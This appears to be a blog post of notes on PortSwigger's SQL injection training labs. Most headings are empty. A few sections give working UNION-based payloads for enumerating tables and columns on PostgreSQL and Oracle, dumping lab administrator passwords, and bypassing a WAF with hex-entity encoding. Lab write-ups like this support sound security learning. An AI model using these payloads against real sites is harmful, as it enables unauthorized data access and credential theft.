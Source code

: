 ```yaml
---
title: SQL injection
tags:
  - 渗透
abbrlink: 8b56535a
description: SQL injection based on PostSwigger Lab
date: 2024-03-17 00:26:00
---
```


[PostSwigger Lab - SQL injection](https://portswigger.net/web-security/sql-injection)

**Tools**：BurpSuite，Chrome，switchyomega

## 0x00 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## 0x01 SQL injection vulnerability allowing login bypass

## 0x02 SQL injection attack, querying the database type and version on Oracle

## 0x03 SQL injection attack, querying the database type and version on MySQL and Microsoft

## 0x04 SQL injection attack, listing the database contents on non-Oracle databases
***End Goals***:
- Determine the table that contains usernames andpasswords
- Determine the relevant columnsOutput the content of the table
- Login as the administrator user

***Analysis***:
1. Find the number of columns
`' order by 3--` -> Internal server error -> 3-1=2
2. Find the data type of the columns
`' UNION select 'a','a'--` -> both columns accept type text
3. Version of the database
    - `' UNION SELECT @@version, NULL--` -> not Microsoft
    - `' UNION SELECT version()，NULL--` ->200 0K `PostgreSQL 12.17 (Ubuntu 12.17-0ubuntu0.20.04.1)`
4. Output the list of table names in the database
    `' UNION SELECT table_name, NULL FROM information_schema.tables--` -> search `users` -> `users_vqrxmy`
5. Output the column names of the table
    `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_vqrxmy'--` -> `password_bfrqkp` and `username_rwstyz`

6. Output the usernames and passwords
`' UNION select username_rwstyz, password_bfrqkp from users_vqrxmy--` -> `administrator` and `lftog9bgwjw81hj0feiy`


## 0x05 SQL injection attack, listing the database contents on Oracle
***End Goals***:
- Determine which table contains the usernames and passwords
- Determine the column names in table
- Output the content of the table
- Login as the administrator user

***Analysis***:
1. Determine the number of columns
`' order by 3--` -> Internal server error -> 3-1=2
2. Find the data type of the columns
Oracle database -> `' UNION select 'a','a' from DUAL--` -> both columns accept type text
3. Output the list of tables in the database
`' UNION SELECT table_name, NULL FROM all_tables--` -> search `users` -> `USERS_MQOBSV`
4. Output the column names of the users table
`' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_MQOBSV'--` -> `USERNAME_APTSKD` and `PASSWORD_QXOINH `
5. Output the list of usernames and passwords
`' UNION select USERNAME_APTSKD, PASSWORD_QXOINH from USERS_MQOBSV--` -> `administrator` and `dvqljtgry480ary2i1iu`

## 0x06 SQL injection UNION attack, determining the number of columns returned by the query

## 0x07 SQL injection UNION attack, finding a column containing text

## 0x08 SQL injection UNION attack, retrieving data from other tables

## 0x09 SQL injection UNION attack, retrieving multiple values in a single column

## 0x0A Blind SQL injection with conditional responses
***End Goals***:

***Analysis***:

## 0x0B Blind SQL injection with conditional errors

## 0x0C Visible error-based SQL injection

## 0x0D Blind SQL injection with time delays

## 0x0E Blind SQL injection with time delays and information retrieval

## 0x0F Blind SQL injection with out-of-band interaction

## 0x10 Blind SQL injection with out-of-band data exfiltration

## 0x11 SQL injection with filter bypass via XML encoding
***End Goals***: Exploit SQL injection to retrieve the admin user's credentials from the users table and log into their account.

***Analysis***:
1. Find records of interactions with the backend
burp -> proxy -> HTTP history  -> `ProductId=1` and `stock`
2. Obfuscate input in a way that the WAF gets bypassed.
`1 UNION SELECT NULL` -> Extensions -> Hackvetor -> @hex_entities
3. Output the list of usernames and passwords
`1 UNION SELECT username || '~' || password FROM users` ->  `administrator` and `q1xffcev1fis39y95d17`